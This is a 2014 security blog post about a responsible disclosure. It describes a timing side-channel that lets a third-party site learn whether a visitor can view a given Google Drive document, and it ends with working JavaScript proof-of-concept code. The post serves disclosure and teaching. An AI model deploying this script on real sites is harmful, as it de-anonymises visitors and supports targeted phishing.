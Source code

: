 ```yaml
---
layout: post
title: "Demasking Google Users with a Timing Attack"
date: 2014-09-04 13:34:10 -0700
comments: true
categories: [security, javascript]
---
```

## Responsible Disclosure

I believe strongly in the responsible disclosure of security issues, [having participated in Google's responsible disclosure program in the past](http://blog.andrewcantino.com/blog/2011/12/14/hacking-google-for-fun-and-profit/) and helping to run a similar [disclosure program](https://hackerone.com/mavenlink) at Mavenlink.

The issues discussed in this post were responsibly disclosed to Google Security.  Google triaged the issues, talked to the involved teams, and declined the opportunity to fix.  They gave me written permission to blog about this.

# The Attack

**Summary**: A 3rd party site can determine if a website viewer has access to a particular Google Drive document.

**Implications**: An attacker could share a document with one or more email addresses, but uncheck the option that causes Google to send a notification email.  Now the attacking site can figure out when someone logged into any of the shared addresses visits their site.  This is mostly useful for very targeted attacks, where an attacking site needs to behave differently based on who is viewing.  This could be used for spear phishing, identification of government officials, industrial mischief, etc.

**How it works**:  The attack is straightforward. A malicious page repeatedly instantiates an image whose source points at the URL of a Google Drive document.  If that document is viewable by the visitor, loading the resulting page will take longer than if the document is not viewable.  Since the result isn't an image, the `onerror` callback of the image is triggered in both cases, but we can record how long it takes from image instantiation to triggering of the `onerror`.  This time will be greater when the document is accessible.  In my experiments, loading took an average of 891ms when the document was available, but 573ms when it was not.  Since this is going to be connection-dependent, it makes sense to simultaneously test against a document that is always known to be inaccessible, then compare times with the probe document.

Google chose not to fix this issue, as "the risk here is fairly low, both in terms of impact and difficulty of exploiting this against a large population, and we don't have an effective solution".  I don't really disagree with them-- this *is* hard to fix, and fairly theoretical.  Still, I think this is an interesting example of a timing attack, and shows how hard these sorts of issues can be to avoid.

Here is some example code:

``` javascript
var urls = {
  hasAccess: "https://docs.google.com/document/....../edit",
  doesNotHaveAccess: "https://docs.google.com/document/....../edit"
};

function addImage(src, callback) {
  var elem = document.createElement("IMG");
  elem.src = src + "?r=" + Math.random();
  elem.onerror = callback;
  $("body").append(elem);
}

var times = { 
  hasAccess: { sum: 0, count: 0 }, 
  doesNotHaveAccess: { sum: 0, count: 0 }
};

var testRuns = 40; // a smaller number can be used

function nextTest() {
  testRuns--;
  if (testRuns > 0) {
    var type = Math.random() > 0.5 ? 'hasAccess' : 'doesNotHaveAccess';
    var startTime = new Date().getTime();
    addImage(urls[type], function() {
      var endTime = new Date().getTime();
      times[type].count++;
      times[type].sum = times[type].sum + (endTime - startTime);
      setTimeout(nextTest, 100); // a shorter timeout is fine
    });
  } else {
    $("body").append("hasAccess: " + (times.hasAccess.sum / times.hasAccess.count) + "<br />" + "doesNotHaveAccess: " + (times.doesNotHaveAccess.sum / times.doesNotHaveAccess.count));
  }
}

nextTest()
```
